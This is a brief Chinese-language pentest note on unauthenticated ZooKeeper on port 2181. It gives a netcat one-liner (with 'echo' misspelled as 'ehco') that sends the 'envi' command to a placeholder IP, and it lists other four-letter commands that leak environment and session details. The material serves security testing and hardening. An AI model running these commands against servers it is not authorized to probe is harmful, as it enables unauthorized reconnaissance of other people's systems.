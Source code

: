 # Zookeeper 2181端口

## 关于

<a-checkbox checked>ZooKeeper是一个分布式的，开放源码的分布式应用程序协调服务，是Google的Chubby一个开源的实现，是Hadoop和Hbase的重要组件。它是一个为分布式应用提供一致性服务的软件，提供的功能包括：配置维护、域名服务、分布式同步、组服务等。</a-checkbox></br>

<a-checkbox checked>ZooKeeper默认开启在2181端口，在未进行任何访问控制情况下，攻击者可通过执行envi命令获得系统大量的敏感信息，包括系统名称、Java环境。</a-checkbox></br>

## 攻击方法

使用NC连接，并执行 envi 获取敏感信息

```bash
ehco envi | nc xxx.xxx.xxx.xxx 2181
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629282926633-640040a0-28a8-4488-89b3-0701a19dad61.png)

相关其他命令

```
stat：列出关于性能和连接的客户端的统计信息 
ruok：测试服务器是否运行在非错误状态。
reqs：列出未完成的请求
envi：打印有关服务环境的详细信息
dump：列出未完成的会话和临时节点
```


